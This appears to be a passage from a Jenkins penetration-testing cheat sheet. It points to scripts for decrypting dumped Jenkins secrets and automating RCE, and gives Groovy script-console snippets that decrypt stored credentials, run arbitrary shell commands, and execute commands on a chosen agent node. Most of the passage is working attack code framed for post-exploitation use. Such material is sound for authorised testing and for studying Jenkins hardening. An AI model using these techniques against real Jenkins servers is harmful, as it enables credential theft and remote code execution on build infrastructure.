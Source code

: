 Use [this script](./offline_decryption/jenkins_offline_decrypt.py) to decrypt previsously dumped secrets.

```
Usage:
	jenkins_offline_decrypt.py <jenkins_base_path>
or:
	jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
	jenkins_offline_decrypt.py -i <path> (interactive mode)
```


Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Multiline shell command that can include pipes, redirects and stuff:

```java
def proc = ['bash', '-c', '''your_long_command_here'''].execute();
```

Automate it using [this script](./rce/jenkins_rce_admin_script.py).

Command execution on specific slave
-----------------------------------
By default execution happens on the master node. Use this script to execute on a specific slave:
```java
import hudson.util.RemotingDiagnostics
import jenkins.model.Jenkins

String agent_name = 'slave_name'

groovy_script = '''
def proc = ['cmd', '/c', 'cd D:\\\\ && dir data'].execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
'''

String result
Jenkins.instance.slaves.find { agent ->
    agent.name == agent_name
}.with { agent ->
    result = RemotingDiagnostics.executeGroovy(groovy_script, agent.channel)
}
println result
```
